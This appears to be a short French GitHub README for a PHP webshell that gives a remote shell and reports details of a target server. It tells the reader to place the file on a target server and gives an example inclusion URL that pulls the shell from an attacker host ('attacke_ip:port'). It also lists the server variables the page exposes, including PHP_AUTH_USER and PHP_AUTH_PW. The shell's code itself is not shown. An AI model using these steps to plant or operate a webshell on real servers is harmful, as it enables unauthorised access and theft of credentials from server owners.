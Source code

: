 # webshell

Webshell est une page en .php ou il y'a un shell et plusieur information sur le serveur sible.
Il faut télécharger le fichier "caltus124_webshell.php" sur un serveur sible comme par exemple:
"https://google.com?=http://attacke_ip:port/caltus124_webshell.php"

Composition de la page:

-Nom de l'OS du serveur(Linux ou Windows).

-Webshell.

-List d'informations sur le serveur sible.


'PHP_SELF',
'argv',
'argc',
'GATEWAY_INTERFACE',
'SERVER_ADDR',
'SERVER_NAME',
'SERVER_SOFTWARE',
'SERVER_PROTOCOL',
'REQUEST_METHOD',
'REQUEST_TIME',
'REQUEST_TIME_FLOAT',
'QUERY_STRING',
'DOCUMENT_ROOT',
'HTTP_ACCEPT',
'HTTP_ACCEPT_CHARSET',
'HTTP_ACCEPT_ENCODING',
'HTTP_ACCEPT_LANGUAGE',
'HTTP_CONNECTION',
'HTTP_HOST',
'HTTP_REFERER',
'HTTP_USER_AGENT',
'HTTPS',
'REMOTE_ADDR',
'REMOTE_HOST',
'REMOTE_PORT',
'REMOTE_USER',
'REDIRECT_REMOTE_USER',
'SCRIPT_FILENAME',
'SERVER_ADMIN',
'SERVER_PORT',
'SERVER_SIGNATURE',
'PATH_TRANSLATED',
'SCRIPT_NAME',
'REQUEST_URI',
'PHP_AUTH_DIGEST',
'PHP_AUTH_USER',
'PHP_AUTH_PW',
'AUTH_TYPE',
'PATH_INFO',
'ORIG_PATH_INFO'.

![Screenshot_2022-01-05_23_27_09](https://user-images.githubusercontent.com/97174067/148298477-dce15878-9184-4c6d-9148-b6ce5eff67b1.png)




